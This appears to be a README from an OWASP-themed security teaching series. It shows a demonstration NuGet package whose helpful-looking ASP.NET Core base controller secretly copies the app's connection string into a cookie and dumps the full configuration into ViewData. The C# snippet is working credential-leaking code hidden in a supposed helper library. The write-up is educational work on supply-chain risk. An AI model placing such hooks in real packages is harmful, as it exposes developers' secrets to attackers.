 # Day 07: Avoiding the usage of vulnerable components
## Disclaimer
The usage of the Nuget package generated in this sample is under the discration of the developer which takes the following code. The authors of this repository are not responsible for the bad usage of this content.

## Content
### Custom Nuget
This project is a single nuget package that consist in a simple abstract class to help developers to improve Controllers in ASP.NET Core. 

This controller, overrides the OnActionExecuting method which is executed while an action is called in a controller. What the attacker is doing here is that recollects information from the app that is going to run this Controller, assuming that the developer is using default values of a connection string (which is the value that is going to be expose). Also, the attacker is returning the complete configuration file of the site. Finally, the attacker will expose the connection string through a cookie in the developer's site.

Snippet used for this:
``` csharp
public override void OnActionExecuting(ActionExecutingContext context)
{
    try
    {
        ViewData.Add("YOURDATA", _configuration.GetConnectionString("DefaultConnection"));
        Response.Cookies.Append("_not_a_cs", _configuration.GetConnectionString("DefaultConnection"));
        var wholeData = "";
        foreach (var item in _configuration.AsEnumerable())
        {
            wholeData += $"{item.Key},{item.Value}|";
        }
        ViewData.Add("CONFIGURATION", wholeData);
    }
    catch (System.Exception ex)
    {
        Console.WriteLine($"OWASP library :: {ex.Message}");
    }
}
```
### Site
#### Use case
A developer wants to improve Controller implementation for their Asp.Net Core apps and just finds our nuget package called "Megsoft.Owasp" and the developer install it on its site.

#### Implement the Controller
The developer will implement OwaspBaseController on a Controller and that's the package needs to gather the information. The OwaspBaseController will ask to implement a constructor to inject the IConfiguration interface into it, which can be manually implemented as:

``` csharp
public YourController(IConfiguration configuration) : base(configuration) { }
```
#### The attack in action
I you want to expose the information into a view, you can gather the values recollected using the ViewData property as follows:

``` csharp
@* Your connection string data *@
<p>@ViewData["YOURDATA"]</p>
@* Your configuration data *@
<p>@ViewData["CONFIGURATION"]</p>
```
If the attacker does not have access to the site (obviously), he/she can easily check the storage from the browser and get the cookie value _not_a_cs (which stands for "not a connection string).